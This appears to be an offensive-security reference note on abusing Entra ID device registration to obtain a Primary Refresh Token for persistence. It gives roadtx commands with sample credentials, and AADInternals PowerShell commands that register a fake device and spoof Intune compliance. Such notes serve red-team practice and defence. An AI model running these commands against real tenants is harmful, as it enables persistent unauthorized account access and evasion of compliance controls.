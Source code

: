 ```yaml
---
title: Device Registration
---
```


Register a new device to obtain a [[notes/entra/prt]] as [[notes/entra/index]] [[notes/mitre-attack/persistence]] technique.

Get an authentication token for the device registration service.
This might require MFA, but often doesn't.

~~~ bash
roadtx gettokens -u john.doe@corp.com -p 'passw0rd' -r devicereg
~~~

Register a new device.

~~~ bash
roadtx device -n pentest1
~~~

Get a PRT for the device.
If device registration is possible without MFA the resulting PRT will miss the MFA claim.

~~~ bash
roadtx prt -u john.doe@corp.com -p 'passw0rd' --key-pem ./pentest1.key --cert-pem ./pentest1.pem
~~~

Do interactive MFA to add the MFA claim to the PRT.

~~~ bash
roadtx prtenrich
~~~

Use the PRT to browse a website as authenticated user.

~~~ bash
roadtx browserprtauth -url https://office.com
~~~

Authenticate with the PRT as Microsoft Teams client.

~~~ bash
roadtx prtauth -c msteams -r msgraph
~~~

Device registration variants ([source](https://twitter.com/lukasberancz/status/1629786547208740864)):

- Azure AD joined
    - Windows 10, Windows 11 or Windows Server 2019, Server 2022 running as Azure VM
    - corporate device
    - managed trough Intune or SCCM
    - PRT obtained via Cloud Authentication Provider (CloudAP)
- Azure AD registered
    - BOYD devices, often phones
    - supported by Windows 10, Windows 11, macOS, Ubuntu and mobile devices
    - PRT obtained via WAM
- Azure AD Hybrid Join
    - corporate device
    - joined to on-prem AD and registered on AAD
    - all Windows desktop and server versions
    - PRT obtained via CloudAP

Register device and fake device compliance with [[notes/tools/aadinternals]] ([source](http://web.archive.org/web/20230110065457/https://aadinternals.com/post/mdm/)).

~~~ ps1
Get-AADIntAccessTokenForAADJoin -SaveToCache
Join-AADIntDeviceToAzureAD -DeviceName 'SixByFour' -DeviceType 'Commodore' -OSVersion 'C64'
Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
Join-AADIntDeviceToIntune -DeviceName 'SixByFour'
Start-AADIntDeviceIntuneCallback -DeviceName 'SixByFour' -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx
~~~

References:

- [Automating Azure AD authentication, Primary Refresh Token (ab)use and device registration](http://web.archive.org/web/20221109155717/https://dirkjanm.io/introducing-roadtools-token-exchange-roadtx/), introduction of `roadtx`
- [RoadTX Wiki](https://github.com/dirkjanm/ROADtools/wiki/ROADtools-Token-eXchange-(roadtx))
